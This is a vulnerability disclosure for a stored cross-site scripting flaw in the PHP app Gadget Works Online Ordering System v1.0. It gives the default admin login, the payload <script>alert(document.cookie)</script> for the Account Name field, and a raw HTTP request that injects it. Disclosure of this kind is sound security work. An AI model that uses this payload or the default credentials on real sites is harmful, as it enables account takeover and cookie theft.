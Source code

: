 # Gadget Works Online Ordering System v1.0 has Stored Cross Site Scripting

BUG_Author: heitaoa999

Website source address:https://www.sourcecodester.com/php/13093/gadget-works-online-ordering-system-phpmysqli.html

Vulnerability url: /philosophy/admin/user/controller.php?action=add

POST parameter 'U_NAME' exists Stored Cross Site Scripting

### Steps to reproduce

1. Go to the admin Dashboard

http://localhost/philosophy/admin/login.php

System Admin Access information:

Username: janobe
Password: admin

2. Click on Users and Click on + News and select User

![image](https://github.com/heitaoa999/bug_report/blob/main/pictures/xss1.png)

3. Put Payload into the 'Account Name' parameter.

Payload:<script>alert(document.cookie)</script>

![image](https://github.com/heitaoa999/bug_report/blob/main/pictures/xss2.png)

4. Click on Save

Transmission packet

```
POST /philosophy/admin/user/controller.php?action=add HTTP/1.1
Host: localhost
Content-Length: 133
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/philosophy/admin/user/index.php?view=add
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=erriivuolh0rb2ucknp2nmpolf
Connection: close

deptid=&U_NAME=%3Cscript%3Ealert%28document.cookie%29%3C%2Fscript%3E&deptid=&U_USERNAME=a&deptid=&U_PASS=b&U_ROLE=Administrator&save=
```

5. Payload will trigger when a user visits on http://localhost/philosophy/admin/user/index.php

![image](https://github.com/heitaoa999/bug_report/blob/main/pictures/xss3.png)
